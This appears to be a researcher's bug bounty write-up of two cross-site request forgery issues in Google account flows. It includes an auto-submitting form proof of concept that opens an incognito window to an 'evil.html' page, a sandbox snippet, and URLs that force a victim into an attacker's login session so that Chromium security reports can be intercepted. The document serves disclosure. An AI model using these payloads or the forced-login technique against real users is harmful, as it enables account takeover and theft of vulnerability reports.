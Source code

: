 ```yaml
---
title: Google Accounts/GAIA XSRF
---
```


# Go Incognito XSRF (Fixed, Awarded $3000)

`SignOutOptions` has a feature where it will open an Android incognito window to a custom URL that does not inherit the sandbox or close the file picker dialog (spoof)

```js
Frame = document.createElement('iframe');
Frame.sandbox = 'allow-popups allow-forms allow-scripts';
```

```html
<form action="https://accounts.google.com/SignOutOptions?continue=https://www.google.com/amp/a/s/ndev.tk/evil.html" method="post">
  <input type="submit" name="incognito" value="1" />
</form>
<script>
  document.querySelector("input").click();
</script>
```

- [sandbox escape video](https://www.youtube.com/watch?v=Cu_8SCU2RE4)  


The first patch used `google_util::IsGoogleAssociatedDomainUrl` thats bypassable since Google hosts user generated content on `gstatic.com` (via XSS), `storage.googleapis.com` (Storage buckets) and `googleusercontent.com` (`ip.bc.googleusercontent.com`), I did not verify if insecure `http://` pages work.

# Login XSRF (WONTFIX/INFEASIBLE)

Both issue trackers don't verify if the victim initiated the login which allows the attacker to force a login to their account, No `document.cookie =` needed :)  
<https://issues.chromium.org/accounts/SetOSID> (Via: `https://accounts.google.com/ServiceLogin?osid=1&continue=https%3A%2F%2Fissues.chromium.org`)  
<https://bugs.chromium.org/_ah/conflogin?state=> (Via: `https://uc.appengine.google.com/_ah/conflogin?state=`)  
Some more examples...

- `https://accounts.googlesource.com/accounts/SetSID?ssdc=1&sidt=<Token>&continue=https://chromium.googlesource.com/login/angle/?pli%3D1%26authuser%3D1`
- `https://accounts.blogger.com/accounts/SetSID?ssdc=1&sidt=<Token>&continue=https://www.blogger.com/home?pli%3D1%26authuser%3D1`
- `https://flash.android.com/accounts/SetOSID?authuser=0&continue=https://flash.android.com/?pli%3D1%26authuser%3D0&osidt=<Token>`

Worth mentioning since the token is not connected to a session, browser extensions with the Tabs permission but no host permission gain account takeover; it's a feature.

Once the victim is on the attackers account any security issues reported via the standard <https://bugs.chromium.org/p/chromium/issues/wizard> page (ideally bookmarked) will be sent to the attackers email and if all goes well there be able to steal that 0day and get the reward (very unlikely) from Chromium VRP!

They are aware of the fact that login XSRF is possible in some cases. Unfortunately, they don’t have a clear plan to fix it at this time.
